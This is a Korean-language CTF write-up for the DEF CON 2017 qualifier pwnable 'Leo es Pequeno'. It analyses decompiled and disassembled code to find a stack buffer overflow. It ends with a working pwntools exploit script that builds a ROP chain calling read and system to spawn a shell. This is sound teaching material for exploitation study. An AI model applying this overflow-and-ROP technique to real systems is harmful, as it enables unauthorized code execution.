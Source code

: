 # DEF CON CTF Qualifier 2017: Leo es Pequeno

**write-up by [kimtruth](https://github.com/kimtruth)**

**Category:** Pwnable

**Description:**

> You boys like Mexico?!
>
> leo_33e299c29ed3f0113f3955a4c6b08500.quals.shallweplayaga.me 61111
>
> Files: [leo](https://github.com/kimtruth/CTF-write-up/raw/master/DEF%20CON%20CTF%20Qualifier%202017/Leo%20es%20Pequeno/leo)

## [Step 1] 파일 형식 판정

```c
signed __int64 __fastcall categorize(_BYTE *input, int a2)
{
  signed __int64 result; // rax@25
  int table[256][2]; // [sp+10h] [bp-820h]@2
  unsigned int maxFreqChar; // [sp+814h] [bp-1Ch]@1
  unsigned int minFreqChar; // [sp+818h] [bp-18h]@1
  unsigned int unusedCnt; // [sp+81Ch] [bp-14h]@1
  unsigned int asciiCount; // [sp+820h] [bp-10h]@1
  unsigned int minFreq; // [sp+824h] [bp-Ch]@1
  unsigned int maxFreq; // [sp+828h] [bp-8h]@1
  int i; // [sp+82Ch] [bp-4h]@1

  maxFreq = 0;
  minFreq = -1;
  asciiCount = 0;
  unusedCnt = 0;
  minFreqChar = 511;
  maxFreqChar = 0;
  for ( i = 0; i <= 255; ++i )
  {
    table[i][0] = i;
    table[i][1] = 0;
  }
  for ( i = 0; i < a2; ++i )
    ++table[input[i]][1];                       // ascii frequency analysis
  for ( i = 0; i <= 255; ++i )
  {
    if ( table[i][1] > maxFreq )
      maxFreq = table[i][1];
    if ( table[i][1] < minFreq )
      minFreq = table[i][1];
    asciiCount += table[i][1];                  // asciiCount : 사용된 ascii값 종류
  }
  asciiCount >>= 8;
  sub_40185E((_DWORD *)table, 256);             // sort
  for ( i = 0; i <= 255; ++i )
  {
    if ( table[i][1] )
    {
      if ( table[i][0] < minFreqChar )
        minFreqChar = table[i][0];
      if ( table[i][0] > maxFreqChar )
        maxFreqChar = table[i][0];
    }
    else
    {
      ++unusedCnt;
    }
  }
  if ( unusedCnt > 4 || 10 * asciiCount <= maxFreq )
  {
    if ( maxFreqChar > 0x7F || minFreqChar <= 8 )
    {
      if ( minFreq && 10 * asciiCount < maxFreq )
      {
        result = 100LL;                         // Its an executable?  Let's see what 'file' says...
      }
      else if ( minFreq || 2 * asciiCount >= maxFreq )  // 1. minFreqChar <= 8   && 10 * asciiCount == maxFreq
                                                        // 2. maxFreqChar > 0x7f && 10 * asciiCount == maxFreq 
      {
        result = 22LL;                          // This doesn't match my patterns.  Checking...
      }
      else
      {
        result = 25LL;                          // I guess its binary data. Let's see what 'file' says...
      }
    }
    else if ( table[255][0] == 32 )
    {
      result = 49LL;                            // This is ASCII text.
    }
    else
    {
      result = 50LL;                            // This is ASCII data.
    }
  }
  else
  {
    result = 2LL;
  }
  return result;
}
```

먼저 조건식을 분석하여 `This doesn't match my patterns. Checking...`이 나오게 했다.
이유는 그냥.. 뭔가 의심가는 부분이였고 다른 부분이 공격가능한지 몰랐었다.

## [Step 2] 공격 가능성

먼저 Checking...한다고 하면서 call하는 함수는 heap에서 코드가 실행이 된다.

```
   0xab9000:	push   rbp
   0xab9001:	mov    rbp,rsp
   0xab9004:	mov    QWORD PTR [rbp-0x28],rdi
   0xab9008:	mov    DWORD PTR [rbp-0x2c],esi
   0xab900b:	mov    eax,DWORD PTR [rbp-0x2c]
   0xab900e:	mov    edx,eax
   0xab9010:	shr    edx,0x1f
   0xab9013:	add    eax,edx
   0xab9015:	sar    eax,1
   0xab9017:	add    eax,0x1
   0xab901a:	mov    DWORD PTR [rbp-0x8],eax
   0xab901d:	mov    DWORD PTR [rbp-0x4],0x11
   0xab9024:	mov    DWORD PTR [rbp-0x4],0x0
   0xab902b:	jmp    0xab9062
   0xab902d:	mov    eax,DWORD PTR [rbp-0x2c]
   0xab9030:	mov    edx,eax
   0xab9032:	shr    edx,0x1f
   0xab9035:	add    eax,edx
   0xab9037:	sar    eax,1
   0xab9039:	add    eax,0x1
   0xab903c:	cmp    eax,DWORD PTR [rbp-0x8]
   0xab903f:	je     0xab9043
   0xab9041:	jmp    0xab906b
   0xab9043:	mov    eax,DWORD PTR [rbp-0x4]
   0xab9046:	movsxd rdx,eax
   0xab9049:	mov    rax,QWORD PTR [rbp-0x28]
   0xab904d:	add    rax,rdx
   0xab9050:	movzx  eax,BYTE PTR [rax]
   0xab9053:	mov    edx,eax
   0xab9055:	mov    eax,DWORD PTR [rbp-0x4]
   0xab9058:	cdqe   
   0xab905a:	mov    BYTE PTR [rbp+rax*1-0x20],dl
   0xab905e:	add    DWORD PTR [rbp-0x4],0x1
   0xab9062:	mov    eax,DWORD PTR [rbp-0x4]
   0xab9065:	cmp    eax,DWORD PTR [rbp-0x2c]
   0xab9068:	jl     0xab902d
   0xab906a:	nop
   0xab906b:	pop    rbp
   0xab906c:	ret    
```

그냥 한번 귀찮으니 hexray를 돌려봤다.


```c
int __cdecl main(_BYTE *s, int num, const char **envp)
{
  int result; // eax@2
  char v4[24]; // [sp+Ch] [bp-20h]@3
  int v5; // [sp+24h] [bp-8h]@1
  int i; // [sp+28h] [bp-4h]@1

  v5 = num / 2 + 1;
  for ( i = 0; ; ++i )
  {
    result = i;
    if ( i >= num )
      break;
    result = num / 2 + 1;
    if ( result != v5 )
      break;
    v4[i] = s[i];
  }
  return result;
}
```
우리가 입력한 문자열을 어느 배열에 그대로 복붙을 하고 있다.

근데 일단 우리가 입력 가능한 문자가 16000자 였는데 그 배열이 `rbp-0x20`에 위치해 있다. 

그렇다면 return address 조작이 가능할 것이다.

하지만 `rbp-0x8`를 주의해야 한다. 

`rbp-0x8`에는 기존의 내용인 `8001`이 있어야 한다. 또한 `rbp-0x4`에 `0x1c`를 넣어 줘야 하는데 

그 이유는 `i`가 `0x1c`일 때 `rbp-0x4`에 값이 대입되기 때문이다.


## [Step 3] Exploit

`This doesn't match my patterns.  Checking...`가 뜨게 하기 위해서 620개의 빈도를 가지는 문자를 맞춰준다.
```python
#-*- coding:utf-8 -*-
from pwn import *
#r = remote('leo_33e299c29ed3f0113f3955a4c6b08500.quals.shallweplayaga.me', '61111')
r = process('./leo')
print pidof(r)

paylod = ''
paylod += p32(8001) * 7 # [rbp - 0x20] ~ [rbp - 0x8]
paylod += p32(0x1c) 	# [rbp - 0x4]
paylod += p64(0x0) # rbp, 아무거나 
paylod += p64(0x402703) # pop rdi ret
paylod += p64(0) #fd
paylod += p64(0x402701) # pop rsi pop r15 ret
paylod += p64(0x0604188) # bss
paylod += p64(0xaaaaaaaa) # junk
paylod += p64(0x401090) # read@plt
paylod += p64(0x402703) # pop rdi ret
paylod += p64(0x0604188) # bss
paylod += p64(0x0400FD0) # system@plt


# for "This doesn't match my patterns.  Checking..." just padding
paylod += chr(255) * 620

for i in range(0, 254):
	paylod += chr(i) * 60

paylod += chr(254) * (16000 - len(paylod)) # for 16,000bytes

print len(paylod)

r.send(paylod)
r.send("/bin/sh\x00\n")

r.interactive()
```

![](./solve.gif)
